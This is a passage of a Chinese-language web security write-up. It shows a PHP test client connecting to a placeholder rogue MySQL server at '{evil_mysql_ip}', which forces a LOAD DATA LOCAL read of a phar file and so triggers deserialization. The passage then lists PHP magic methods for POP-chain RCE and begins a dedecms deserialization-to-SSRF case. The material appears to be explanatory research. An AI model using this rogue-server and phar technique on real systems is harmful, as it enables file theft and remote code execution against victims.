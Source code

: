 使用该文件生成一个phar.phar

然后我们模拟一次查询
```
test.php

<?php
class A {
    public $s = '';
    public function __wakeup () {
        echo "pwned!!";
    }
}


$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, '{evil_mysql_ip}', 'root', '123456', 'test', 3667);
$p = mysqli_query($m, 'select 1;');

// file_get_contents('phar://./phar.phar');
```

图中我们只做了select 1查询，但我们伪造的evil mysql server中驱使mysql client去做`load file local`查询，读取了本地的
```
phar://./phar.phar
```

成功触发反序列化
![image.png-33.1kB][28]


## 反序列化 to RCE

当一个反序列化漏洞出现的时候，我们就需要从源代码中去寻找合适的pop链，建立在pop链的利用基础上，我们可以进一步的扩大反序列化漏洞的危害。

php序列化中常见的魔术方法有以下
- 当对象被创建的时候调用：__construct
- 当对象被销毁的时候调用：__destruct
- 当对象被当作一个字符串使用时候调用：__toString
- 序列化对象之前就调用此方法(其返回需要是一个数组)：__sleep
- 反序列化恢复对象之前就调用此方法：__wakeup
- 当调用对象中不存在的方法会自动调用此方法：__call

配合与之相应的pop链，我们就可以把反序列化转化为RCE。



### dedecms 后台反序列化漏洞 to SSRF

dedecms 后台，模块管理，安装UCenter模块。开始配置

![image.png-537.2kB][31]

首先需要找一个确定的UCenter服务端，可以通过找一个dz的站来做服务端。


[1]: http://static.zybuluo.com/LoRexxar/3t0iv2wtgra8pjxb3hlgv4ao/image.png
[2]: http://static.zybuluo.com/LoRexxar/n0rx8iobd8fxtx5dunos7km3/image.png
[3]: http://static.zybuluo.com/LoRexxar/4x1yyuqbcnugcbqvzofcs3pp/OXDM5E5$ST51%5B$0B%60@BBG~S.png
[4]: http://static.zybuluo.com/LoRexxar/eqng4m7z35a0b7qclj1jmg21/image.png
[5]: http://static.zybuluo.com/LoRexxar/7yori2fkfjl9dlmgtussxdd4/image.png
[6]: http://static.zybuluo.com/LoRexxar/m6gjcjz5w63tnh79jjl2id7k/image.png
[7]: http://static.zybuluo.com/LoRexxar/bl2bviwpwbj3xbkd9ehp258g/image.png
[8]: http://static.zybuluo.com/LoRexxar/7sx4ebpx0xtchs4lj0qvo09k/image.png
[9]: http://static.zybuluo.com/LoRexxar/tobzz9kf0ikfp3h5jqi07m4i/image.png
[10]: http://static.zybuluo.com/LoRexxar/b4xa1b2s05wue6o04k7i1wfw/image.png
[11]: http://static.zybuluo.com/LoRexxar/ock8gpk4wjufrzu434o4sh2e/image.png
[12]: http://static.zybuluo.com/LoRexxar/qwoi5pnwgiw1lmdcx5e7836b/image.png
[13]: http://static.zybuluo.com/LoRexxar/ub5d1ylbd28m9o8zalt4cnto/image.png
[14]: http://static.zybuluo.com/LoRexxar/dfs1q3dm1i6r10mjywgpp819/image.png
[15]: http://static.zybuluo.com/LoRexxar/mrqd72185373870f6wrdas8a/image.png
[16]: http://static.zybuluo.com/LoRexxar/y0x18uc96fwpov4bqn0qhhqj/image.png
[17]: http://static.zybuluo.com/LoRexxar/lwmbbklsfgdti60e8qyjqtw7/image.png
[18]: http://static.zybuluo.com/LoRexxar/72iqa6e7i3928wckfuacxiny/image.png
[19]: http://static.zybuluo.com/LoRexxar/ijivo1toa7afcm4gug7tjzk5/image.png
[20]: http://static.zybuluo.com/LoRexxar/0adbu75qrcuv8caau262m34i/image.png
[21]: http://static.zybuluo.com/LoRexxar/6orndbdfrf1bqysouez1uauj/image.png
[22]: http://static.zybuluo.com/LoRexxar/ciy78f57vftzichc3xg82qgd/image.png
[23]: http://static.zybuluo.com/LoRexxar/ngn1u8fu15qz5d9830lrcbhn/image.png
[24]: http://static.zybuluo.com/LoRexxar/xd6jvuhaofstoduthnb15a1w/image.png
[25]: http://static.zybuluo.com/LoRexxar/vpa6tokfa26dng7eqr8bsubc/image.png
[26]: http://static.zybuluo.com/LoRexxar/4cief0ku1991kkpavlda1lm6/image.png
[27]: http://static.zybuluo.com/LoRexxar/1dl9y4ioznpis2z2xi5ixxdd/image.png
[28]: http://static.zybuluo.com/LoRexxar/j27yhc2er961j4gqttmhwutu/image.png
[29]: http://static.zybuluo.com/LoRexxar/4dr8vlhpn5lnn8ktq1jbn2ao/image.png
[30]: http://static.zybuluo.com/LoRexxar/twls59xuylfk78j4ikrk3eii/image.png
[31]: http://static.zybuluo.com/LoRexxar/hwg8ahoh48odump72h6tf3c1/image.png
[32]: http://static.zybuluo.com/LoRexxar/4ze2by2xa8jwgbnvpquoxxt6/image.png
[33]: http://static.zybuluo.com/LoRexxar/ccwgrjox5x7nxklrtnaxaemk/image.png
[34]: http://static.zybuluo.com/LoRexxar/g5mmomxuunolwnwd69vcf567/image.png
[35]: http://static.zybuluo.com/LoRexxar/i9m3hv9246ziexne1c2d7iik/image.png
[36]: http://static.zybuluo.com/LoRexxar/notx2emuvmf7y0nd7w84sj14/image.png
[37]: http://static.zybuluo.com/LoRexxar/qe1q1zcew7fxp32gtb4ub0jh/image.png
[38]: http://static.zybuluo.com/LoRexxar/otdllmlrbgd0tygavkolgnlb/image.png
[39]: http://static.zybuluo.com/LoRexxar/4yfa4fir4mp1np0jc25gffnw/image.png
[40]: http://static.zybuluo.com/LoRexxar/g7z10bjdd0dphkwuv4k17up7/image.png
[41]: http://static.zybuluo.com/LoRexxar/w9fokrfdntuwsgf9kx9ypcqa/image.png
[42]: http://static.zybuluo.com/LoRexxar/4rfb6q9bzgunh41snsx2jqhp/image.png
[43]: http://static.zybuluo.com/LoRexxar/1xt3jcs0jaiekw13t78nxymi/image.png
[44]: http://static.zybuluo.com/LoRexxar/7yfr1ef8rzjggwaju4xyn9ld/image.png
[45]: http://static.zybuluo.com/LoRexxar/8vwz2j222q7nh07r71m12cb4/image.png
[46]: http://static.zybuluo.com/LoRexxar/7jbzoxpoon4bq9cbldg2zv8f/image.png